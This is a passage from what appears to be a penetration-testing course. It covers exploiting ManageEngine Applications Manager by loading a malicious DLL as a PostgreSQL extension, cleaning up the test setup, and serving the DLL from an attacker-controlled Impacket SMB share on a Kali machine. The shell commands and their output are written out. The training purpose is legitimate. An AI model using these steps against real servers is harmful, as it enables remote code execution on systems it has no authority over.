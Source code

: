 If everything goes according to plan, once we execute the _SELECT_ query and open up the Task Manager, we should see that there are indeed three running instances of _calc.exe_.

If you are anything like us, you will likely make several mistakes as you are developing your code. When this happens, you may wish to unload the extension and restart from scratch. To do so, you must first stop the ManageEngine service:

```
c:\> net stop "Applications Manager"
The ManageEngine Applications Manager service was stopped successfully.
```

> Listing 45 - Stopping the ManageEngine service

Once you have stopped the service, delete the DLL file that you loaded into the database memory space:

```
c:\> del c:\awae.dll
```

> Listing 46 - Deleting the loaded extension

Then start the service so we can go ahead and delete the _test_ function.

```
c:\> net start "Applications Manager"
The ManageEngine Applications Manager service is starting.
The ManageEngine Applications Manager service was started successfully.
```

> Listing 47 - Starting the ManageEngine service again

Finally, execute the SQL statement to delete the _test_ function:

```
DROP FUNCTION test(text, integer);
```

> Listing 48 - Dropping the test function

Now you are able to edit your extension code, re-compile, and re-test the extension.

### 3.6.3. Loading the Extension from a Remote Location

As we have seen in the previous section, PostgreSQL is designed to be extensible and we are able to write our own extension DLL files and create UDFs based on those extensions. So far we have compiled and tested our malicious extension directly on the remote target server. In a real world scenario, we would need to find a way to upload the DLL to the victim server before we could actually load it.

It is interesting to note that PostgreSQL does not limit us to working only with local files. In other words, the source DLL file we are using for the UDF could be also located on a network share.

In order to quickly verify that, we can create a Samba share on our Kali VM and place our DLL there.

You can use the Python Impacket SMB server script for this exercise as shown below.

```
kali@kali:~$ mkdir /home/kali/awae

kali@kali:~$ sudo impacket-smbserver awae /home/kali/awae/
[sudo] password for kali: 
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
